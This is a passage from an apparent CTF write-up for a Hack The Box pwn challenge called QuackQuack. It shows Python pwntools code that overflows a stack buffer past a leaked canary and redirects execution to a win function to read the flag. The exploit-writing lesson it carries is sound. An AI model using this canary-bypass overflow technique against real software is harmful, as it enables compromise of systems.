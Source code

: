 ```python=

# Prepare payload for the 2nd input.
win_addr = exe.symbols['duck_attack']

payload = b"" # -----------------------< Start payload.
payload += b"C"*88 # ------------------< Padding until Stack Canary.
payload += p64(leaked_canary) # -------< Leaked canary value.
payload += p64(0xdeadbeef) # ----------< Fake address for $RBP.
payload += p64(win_addr) # ------------< Ret2win to read the flag.

# Send the payload + canary in the second input.
io.recvuntil(b'> ', timeout=1)
io.sendline(payload)

# Print the flag.
flag = re.search(r'HTB{.*}', io.recvall(timeout=1).decode())
print(f"Flag --> {flag.group(0)}") if flag else print("Failed to get the flag!")

# Maintain current session.
io.interactive()
```

![QuackQuack-03](https://raw.githubusercontent.com/whyuhurtz/hackmd-blog/main/2025/_assets/htb-cyber-apocalypse_pwn1-03.png)

After several attempts about 3 - 10 times, then I can successfully read the flag. Okay, now let's crack the remote machine.

![QuackQuack-03](https://raw.githubusercontent.com/whyuhurtz/hackmd-blog/main/2025/_assets/htb-cyber-apocalypse_pwn1-04.png)